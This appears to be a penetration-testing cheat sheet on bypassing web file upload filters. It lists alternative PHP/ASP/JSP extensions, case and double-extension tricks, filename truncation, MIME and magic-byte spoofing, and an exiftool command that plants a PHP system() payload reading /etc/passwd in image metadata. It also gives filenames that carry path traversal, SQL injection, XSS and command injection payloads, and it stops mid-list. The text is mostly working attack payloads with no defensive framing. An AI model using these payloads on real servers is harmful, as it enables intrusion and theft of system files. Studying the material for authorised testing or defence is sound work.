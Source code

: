 # File upload

## Intercept with proxy (double extension)
In case a file is uploaded with **double extensions** follow the steps below:

1. Make the web request
2. Intercept traffic with proxy
3. Remove the extension that indicates that the file is an image. `.png` `.jpg`
4. Forward the request
5. Open the uploaded file


## File extension types
Developers might blacklist some extension. However, this can be bypassed by using alternative extensions.

| Type       | Extension                                  |
|------------|--------------------------------------------|
| php        | phtml, .php, .php3, .php4, .php5, and .inc |
| asp        | asp, .aspx                                 |
| perl       | .pl, .pm, .cgi, .lib                       |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf         |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                    |


### Letter casing
One should also consider changing the casing of the letters.
```
.pHp
.PHP
.Php
```

### Double extensions and junk data
Adding a decoy extension before the real one
```
file.png.php
```
Adding (junk) meaningless data in front of the extension
```
file.#.png
file.phpjunkDatapng
file.php%0a.png
```


### Special characters
```
file.php/
file.php....
file.
file.php%20
```


## Breaking filename length
1. Try what the maximum length accepted for the file name is, by  adding a bunch of A's to the file name with the extension at the end.   *(linux maximum is 255 bytes)*
2. Upload the file and see how many characters it allows.
3. Add a valid and a `.php` extension to the file. Make it so that the valid extension gets cut off and the `.php` extension remains.

### Example
1. Assume max file length is 255
2. 251 A's and .php extension add up to 255
3. AAA< SNIP 251 >AAA.php.png
This way, the `.png` gets cut off and leaves the `.php`


## MIME type
Even `MIME` types can be blacklisted by developers.		
By intercepting the traffic one can simply change it, to appeal to the server.				

Normal php MIME type:
```
Content-type: application/x-php
```
Replace with:
```
Content-type: image/jpeg
```


## Magic bytes
If an application uses the file's magic bytes to determine the `Content-Type` one can easily bypass it with changing the files magic bytes.

**Table of magic bytes**
| Type | Bytes                            |
|------|----------------------------------|
| GIF  | GIF89a;\x0a                      |
| JPG  | \xFF\xD8\xFF\xDB                 |
| PNG  | \x89\x50\x4E\x47\x0D\x0A\x1A\x0A |
| TAR  | \x75\x73\x74\x61\x72\x00\x30\x30 |

1. Open the file in `hexeditor`:
	```bash
	hexeditor <file>
	```
2.  Edit the first few bytes so that it fits the file type of your choice.
	```
	# In hexeditor (original)
	00 00 00 00

	# In hexeditor (changed to JPG)
	FF D8 FF DB
	```


## PHP getimagesize()
If a file's size gets validated with the `getimagesize()` function, it is possible to add a payload into the image's metadata with `exiftool`.
1. Add payload
	```bash
	exiftool -Comment='<?php system("cat /etc/passwd") ?>' <jpg_file>
	```
2. Change file type
	```
	mv file.jpg	file.php.jpg
	```
3. Upload to server (proxy intercept)



## From File upload to other vulnerabilities
- Set **filename** to `../../../dev/shm/file.jpg` for **path traversal**
- Set **filename** to `sleep(10)-- -.jpg` for **SQL injection**
- Set **filename** to `<svg onload=alert(document.comain)>` for **XSS**
- Set **filename** to `; sleep 10;` for **command injection**
- Set **filename** to